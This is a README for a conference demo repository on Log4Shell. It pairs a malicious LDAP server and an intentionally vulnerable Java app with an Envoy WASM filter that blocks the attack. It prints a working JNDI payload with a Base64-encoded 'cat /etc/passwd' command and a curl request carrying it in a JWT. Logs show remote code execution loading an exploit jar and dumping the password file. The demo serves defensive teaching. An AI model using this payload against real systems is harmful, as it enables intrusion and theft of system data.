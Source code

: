 # ZTA and DevSecOps for Cloud Native Applications

This repository contains the materials for the *Service Mesh as the Security Kernel for Zero Trust Platforms*
demo presented at the NIST ZTA conference 2022.

## Contents

This demo contains three main applications:

* [log4shell-ldap](log4shell-ldap): A malicious LDAP server that can be used to exploit the `Log4Shell` CVEs.
* [vulnerable-app](vulnerable-app): An application that uses an old and insecure Java runtime and a vulnerable
   version of the `log4j` library.
* [wasm-patch](wasm-patch): An [Envoy](https://www.envoyproxy.io/) [WASM extension](https://github.com/proxy-wasm/spec) written
  in Go using the [proxy-wasm-go-sdk](https://github.com/tetratelabs/proxy-wasm-go-sdk) that inspects requests and
  rejects those that contain `Log4Shell` payloads.

See the [hacking](#hacking) section for details about how to customize them.

## Build requirements

* [Go 1.17](https://go.dev/dl/) or higher.
* [TinyGo](https://tinygo.org/) to compile and build the WASM plugin.

## Hacking

The behaviour of the applications can be customized by modifying the [GreetingsServlet.java](vulnerable-app/src/main/java/io/tetrate/log4shell/vulnerable/GreetingsServlet.java)
(vulnerable application) and the [Log4shellExploit.java](log4shell-ldap/exploit/src/main/java/io/tetrate/log4shell/exploit/Log4shellExploit.java) (exploit).

The current implementation of the exploit reads malicious LDAP lookup strings and parses a Base64-encoded command that is then executed. For example, the
malicious string `"${jndi:ldap://log4shell:1389/exec/Y2F0IC9ldGMvcGFzc3dkCg==}"` will instruct the exploit to execute a `cat /etc/passwd` command. The vulnerable
application logs the value of the `subject` claim in a JWT token, so if the malicious payload is set there, the exploit will be triggered.

### Running applications locally

The three applications can be easily run locally, although you won't be able to try all the [Istio](https://istio.io/)
features showcased in the demo. However, it is enough to get the applications running and to be able to play with them
and the WASM plugin.

You can start the applications locally with:

```
make -C wasm-patch clean compile  # docker-compose needs the WASM binary to have been compiled
docker-compose build
docker-compose up
```

This will build the necessary images and start all of them. The vulnerable application is exposed as follows:

* `http://localhost:8080` - Direct access to the vulnerable application.
* `http://localhost:8000` - Access through Envoy, which includes filtering with the WASM plugin.

To test it, you can send a request to the application or Envoy proxy with a JWT Bearer token in the Authorization header.
The contents of the "sub" claim in the provided token will trigger the attack vector, if present. For example:

**Executing the requests directly against the vulnerable app**

```
$ curl http://localhost:8080
Welcome, anonymous!
Accessing: /

$ curl http://localhost:8080 -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJPbmxpbmUgSldUIEJ1aWxkZXIiLCJpYXQiOjE2NDI1ODI2MjIsImV4cCI6MTY3NDExODYyMiwiYXVkIjoid3d3LmV4YW1wbGUuY29tIiwic3ViIjoiJHtqbmRpOmxkYXA6Ly9sb2c0c2hlbGw6MTM4OS9leGVjL1kyRjBJQzlsZEdNdmNHRnpjM2RrQ2c9PX0ifQ.ktEyOh8O3QMH6amqZtPsYHjtDeFVXmgKHLt-s0t2ckw"
Welcome, ${jndi:ldap://log4shell:1389/exec/Y2F0IC9ldGMvcGFzc3dkCg==}!
Accessing: /
```
We can see that the exploit was triggered by inspecting the vulnerable app logs:
```
log4shell_1   | received request from 192.168.160.3:37650
log4shell_1   | delivering malicious LDAP payload: {cn=pwned, exec/Y2F0IC9ldGMvcGFzc3dkCg== [{cn [pwned]} {javaClassName [io.tetrate.log4shell.exploit.Log4shellExploit]} {javaCodeBase [http://log4shell:3000/log4shell-exploit-1.0-SNAPSHOT.jar]} {objectclass [javaNamingReference]} {javaFactory [io.tetrate.log4shell.exploit.Log4shellExploit]}]}
vulnerable_1  | /!\ /!\ /!\ You have been pwned!
vulnerable_1  | /!\ /!\ /!\ RCE exploit loaded
vulnerable_1  | /!\ /!\ /!\ Executing: cat /etc/passwd
vulnerable_1  |
vulnerable_1  | root:x:0:0:root:/root:/bin/bash
vulnerable_1  | daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
vulnerable_1  | bin:x:2:2:bin:/bin:/usr/sbin/nologin
vulnerable_1  | sys:x:3:3:sys:/dev:/usr/sbin/nologin
vulnerable_1  | sync:x:4:65534:sync:/bin:/bin/sync
vulnerable_1  | games:x:5:60:games:/usr/games:/usr/sbin/nologin
vulnerable_1  | man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
vulnerable_1  | lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
vulnerable_1  | mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
vulnerable_1  | news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
vulnerable_1  | uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
vulnerable_1  | proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
vulnerable_1  | www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
vulnerable_1  | backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
vulnerable_1  | list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
vulnerable_1  | irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
vulnerable_1  | gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
vulnerable_1  | nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
vulnerable_1  | systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
vulnerable_1  | systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
vulnerable_1  | systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
vulnerable_1  | systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
vulnerable_1  | messagebus:x:104:108::/var/run/dbus:/bin/false
vulnerable_1  |
vulnerable_1  | 13:40:09.410 [qtp1316061703-12] INFO  io.tetrate.log4shell.vulnerable.GreetingsServlet - welcoming user: pwned!
```

**Executing the requests against the Envoy proxy**

When running the requests through the proxy we can see the access being denied as the traffic is filtered by the WASM plugin.

```
$ curl http://localhost:8000
Welcome, anonymous!
Accessing: /

$ curl http://localhost:8000 -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJPbmxpbmUgSldUIEJ1aWxkZXIiLCJpYXQiOjE2NDI1ODI2MjIsImV4cCI6MTY3NDExODYyMiwiYXVkIjoid3d3LmV4YW1wbGUuY29tIiwic3ViIjoiJHtqbmRpOmxkYXA6Ly9sb2c0c2hlbGw6MTM4OS9leGVjL1kyRjBJQzlsZEdNdmNHRnpjM2RrQ2c9PX0ifQ.ktEyOh8O3QMH6amqZtPsYHjtDeFVXmgKHLt-s0t2ckw"
Access Denied
```

## ZTA demo step by step

If you want to play with the demo, you can follow the step by step guide in the [DEMO.md](DEMO.md) file.
